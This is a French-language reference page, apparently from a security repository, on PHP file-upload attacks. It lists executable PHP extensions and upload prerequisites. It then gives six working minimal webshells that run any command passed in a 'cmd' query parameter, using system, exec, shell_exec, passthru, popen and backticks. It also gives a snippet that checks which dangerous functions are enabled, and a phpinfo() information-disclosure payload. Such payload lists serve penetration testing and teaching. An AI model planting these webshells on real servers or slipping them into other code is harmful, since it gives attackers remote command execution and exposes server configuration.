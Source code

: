 # PHP

![](logo.png)

**Facteur de risque** : RCE via webshell, Information DIsclosure

**Extension** : `.php`, `.php3`, `.php4`, `.php5`, `.php7`, `.phar`, `.phps`, `.phpt`, `.pht`, `.phtm`, `.phtml`, `.inc`

**Description** : **PHP: Hypertext Preprocessor**, plus connu sous son sigle **PHP**, est un "langage de programmation" libre, principalement utilisé pour produire des pages Web dynamiques via un serveur HTTP (*Apache, lighttpd, nginx...*).

## Remote Code Execution

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

- Le serveur supporte le PHP

- Les fonctions d'exécution en PHP doivent être activés

- Les fichiers stockés doivent être exécutés via PHP (même pour les images)
  
  - Impossible de nos jours. La configuration par défaut de PHP consiste à exécuter l'interpréteur PHP uniquement pour les fichiers .php, à l'aide de NGinx, Apache, Lighttpd etc...

### Payload

PHP possède plusieurs fonctions qui permettent d'exécuter des commandes. Ces fonctions peuvent être utilisés pour avoir des webshells très basiques :

#### system

```php
<?php
echo "<pre>";
system($_GET['cmd']);
echo "</pre>";
?>
```

La fonction `system` accepte la commande comme paramètre de la fonction, puis affiche le résultat.

#### exec

```php
<?php
exec($_GET['cmd'], $array);
echo "<pre>";
print_r($array);
echo "</pre>";
?>
```

La fonction `exec` accepte la commande comme paramètre de la fonction, mais n'affiche pas de sortie. Il faut spécifier un deuxième paramètre (ici `$array`) pour avoir le résultat sous forme de tableau. Puis `print_r` est utilisé pour afficher le résultat.

#### shell\_exec

```php
<?php
$output = shell_exec($_GET['cmd']);
echo "<pre>$output</pre>"
?>
```

La fonction `shell_exec` accepte la commande comme paramètre de la fonction, et retourne le résultat sous forme ce chaîne. Puis `echo` est utilisé pour afficher le résultat.

#### passthru

```php
<?php
passthru($_GET['cmd']);
?>
```

La fonction `passthru` accepte la commande comme paramètre de la fonction, et affiche le résultat brut.

#### popen

```php
<?php
$handle = popen($_GET['cmd'],'r');
echo "<pre>".fread($handle,4096)."</pre>";
pclose($handle);
?>
```

La fonction `popen` crée un processus, qui est terminé avec `pclose`.

#### proc_open

A faire

#### Backticks `

```php
<?php
$output = `$_GET['cmd']`;
echo "<pre>$output</pre>";
?>
```

PHP exécute le contenu entre backticks comme des commandes. Puis le résultat est affiché avec `echo`, avec les balises `<pre>` pour garder le résultat préformaté.

Pour lui envoyer des commandes, ajouter `?cmd=` suivi de la commande souhaité. La commande dépendra du serveur (`dir` sur Windows ou `ls`Linux par exemple).

### Quels fonctions sont activés ?

Le code PHP suivant permet de déterminer les fonctions dangereuses autorisés :

```php
<?php
echo "<pre>";
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
echo "</pre>";
?>
```

## Information Disclosure

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

- Le serveur supporte le PHP

### Payload

La fonction `phpinfo` affiche de nombreuses informations sur la configuration de PHP, ce qui constitue une divulgation d'information.

**phpinfo.php**

```php
<?php
phpinfo();
?>
```

## References

[Web Shells 101 Using PHP (Web Shells Part 2) | Acunetix](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)

[PHP: popen - Manual](https://www.php.net/manual/en/function.popen.php)

https://www.dynamicciso.com/web-shells-in-php-detection-and-prevention-part-1/

[security - Exploitable PHP functions - Stack Overflow](https://stackoverflow.com/questions/3115559/exploitable-php-functions)

[[Résolu] Fonctions PHP plus exploitables | php | Prograide.com](https://prograide.com/pregunta/2693/fonctions-php-plus-exploitables)

## Todo

- Vérifier les fonctions définies en PHP
- Faire un webshell avec proc\_open, pcntl\_exec
